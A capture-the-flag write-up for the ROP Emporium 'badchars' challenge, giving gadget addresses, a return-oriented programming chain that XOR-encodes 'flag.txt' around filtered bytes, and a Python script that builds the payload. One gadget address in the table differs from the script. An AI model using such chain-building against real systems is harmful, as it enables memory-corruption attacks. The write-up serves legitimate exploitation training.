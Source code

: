 # badchars
The challenge is available [here](https://ropemporium.com/challenge/badchars.html).

## Black-Box Test


## Solution
In the following table, the important addresses for constructing the ROP chain are summarized, along with a brief description of each.

| Name          | Type            | Address    | Description                                                       |
|---------------|-----------------|------------|-------------------------------------------------------------------|
| print_file    | Func            | 0x080483d0 | The entry address in the PLT table.                               |
| memory4string | Writable Memory | 0x0804a018 | .data segment addr will be where the string "flag.txt" is placed. |
| pop_bx        | Gadget          | 0x0804839d | pop ebx; ret;                                                     |
| pop_bp        | Gadget          | 0x080585bb | pop ebp; ret;                                                     |
| pop_si_di_bp  | Gadget          | 0x080485b9 | pop esi; pop edi; pop ebp; ret;                                   |
| mov2memory    | Gadget          | 0x0804854f | mov dword ptr [edi], esi; ret;                                    |
| xor2memory    | Gadget          | 0x08048547 | xor byte ptr [ebp], bl; ret;                                      |

And the next table describes the ROP chain itself:

| No | Chain Link                                                |
|----|-----------------------------------------------------------|
| 1  | 44 garbage bytes                                          |
| 2  | pop_bx, 0x01010101                                        |
| 3  | pop_si_di_bp, "fl\x60f", memory4string, memory4string+2   |
| 4  | mov2memory                                                |
| 5  | xor2memory                                                |
| 6  | pop_bp, memory4string+3                                   |
| 7  | xor2memory                                                |
| 8  | pop_si_di_bp, "\x2ftyt", memory4string+4, memory4string+4 |
| 9  | mov2memory                                                |
| 10 | xor2memory                                                |
| 11 | pop_bp, memory4string+6                                   |
| 12 | xor2memory                                                |
| 13 | print_file, "XXXX", memory4string                         |

Where `"XXXX"` is the return address from the `print_file` function, which is not needed at all (it's there just to ensure that the parameter `memory4string` is in the right place on the stack).

All that remains is to build the Python script that creates the ROP chain, and we’re done!

```python
# chain_builder.py
import struct

def little_endian(number):
    """
    : The function accepts a number not
    : exceeding 4 bytes in size and returns it
    : as a string of hexadecimal characters in : little-endian format.
    """
    return struct.pack("<I", number)

# Parts of the chain
fill_buffer   = b"X"*44

print_file    = little_endian(0x080483d0)

memory4string = 0x0804a018

pop_bx        = little_endian(0x0804839d)
pop_bp        = little_endian(0x080485bb)
pop_si_di_bp  = little_endian(0x080485b9)
mov2memory    = little_endian(0x0804854f)
xor2memory    = little_endian(0x08048547) 

# Building the chain
ROP_Chain = fill_buffer
ROP_Chain += pop_bx + b"\x01\x01\x01\x01"
ROP_Chain += pop_si_di_bp + b"fl\x60f" + little_endian(memory4string) + little_endian(memory4string+2)
ROP_Chain += mov2memory
ROP_Chain += xor2memory
ROP_Chain += pop_bp + little_endian(memory4string+3)
ROP_Chain += xor2memory
ROP_Chain += pop_si_di_bp + b"\x2ftyt" + little_endian(memory4string+4) + little_endian(memory4string+4)
ROP_Chain += mov2memory
ROP_Chain += xor2memory
ROP_Chain += pop_bp + little_endian(memory4string+6)
ROP_Chain += xor2memory
ROP_Chain += print_file + b"XXXX" + little_endian(memory4string)

# Saving the chain in a binary file
with open("rop_chain", "wb") as f:
    f.write(ROP_Chain)
```